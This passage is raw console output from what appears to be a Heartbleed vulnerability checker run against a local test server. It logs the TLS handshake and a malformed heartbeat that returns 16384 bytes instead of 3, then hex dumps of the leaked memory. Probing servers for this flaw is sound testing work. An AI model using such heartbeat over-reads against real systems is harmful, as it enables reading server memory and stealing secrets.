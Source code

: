 ```
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.1
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.1
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 02 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....
```
